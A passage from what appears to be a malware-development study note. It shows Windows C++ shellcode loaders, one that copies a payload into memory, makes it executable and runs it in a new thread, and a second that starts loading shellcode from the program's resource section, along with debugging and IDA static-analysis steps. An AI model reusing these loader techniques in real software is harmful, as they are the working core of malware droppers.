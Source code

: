 ```cpp
    DWORD oldprotect = 0;
    unsigned int pllen = 6;

	plmem = VirtualAlloc(0, pllen, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%s : 0x%p\n", "payload addr", (void *)payload);
	printf("%s : 0x%p\n", "plmem addr", (void *)plmem);
	RtlMoveMemory(plmem, payload, pllen);
	plbufexec = VirtualProtect(plmem, pllen, PAGE_EXECUTE_READ, &oldprotect);
    printf("\nWanna Exec?\n");
	getchar();

	if ( plbufexec != 0 ) {
			run_thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) plmem, 0, 0, 0);
            printf("Payload Execution Started!\n");
			WaitForSingleObject(run_thread, -1);
	}
	return 0;
}

```

Let's debug it

![image](https://hackmd.io/_uploads/ryEr3inJ0.png)

![image](https://hackmd.io/_uploads/SkULho310.png)

![image](https://hackmd.io/_uploads/Hk7ETj2yC.png)

now let's static analyze it with ida.

![image](https://hackmd.io/_uploads/HJPorbmx0.png)

the only difference here is that the payload is stored in .data section globally so we can get it from there.

![image](https://hackmd.io/_uploads/H1i7I-mgC.png)

so the memmove uses this rather than initializing it in the main function.

#### .rsrc

```cpp

#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <string.h>
#include "resources.h"

int main(void) {
    
    void * plmem;
    BOOL plbufexec;
    HANDLE run_thread;
    DWORD oldprotect = 0;
    HGLOBAL resHandle = NULL;
    HRSRC res;

    unsigned char * payload;
    unsigned int pllen;

    res = FindResource(NULL, MAKEINTRESOURCE(SHELLCODE), RT_RCDATA);
    resHandle = LoadResource(NULL, res);
    payload = (unsigned char *) LockResource(resHandle);
```